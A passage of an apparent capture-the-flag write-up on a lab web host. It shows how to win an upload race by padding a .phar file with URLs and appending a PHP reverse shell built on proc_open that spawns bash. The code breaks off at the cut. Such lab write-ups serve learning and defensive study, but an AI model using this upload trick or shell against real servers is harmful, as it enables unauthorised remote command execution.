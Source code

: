 There's an ```uploads``` directory where it adds another directory with the name of ```md5``` sum of the current timestamp.

So if we upload a ```shell.phar``` file then the uploaded file will be at ```http://dev.siteisup.htb/uploads/md5_sum_of_current_time/shell.phar```.

We can have a look at ```http://dev.siteisup.htb/uploads``` directly right after uploading our file. But the file gets deleted as soon as it is read by the program.

![File Deletion](19.png "File Deletion")

What we can do is create a longer file with a bunch of urls to check and put our reverse shell code right after. This will hopefully give us enough time to execute the file.

Also notice that a bunch of php functions are disabled when we execute our reverse shell so the only shell that worked was with the ```proc_open``` function.

I wrote the shell modifying an example on ```proc_open``` [manual](https://www.php.net/manual/en/function.proc-open.php) page.

```shell.phar``` file.

```bash
http://test.com
http://test.com
http://test.com
...
...
...





<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('bash', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

```
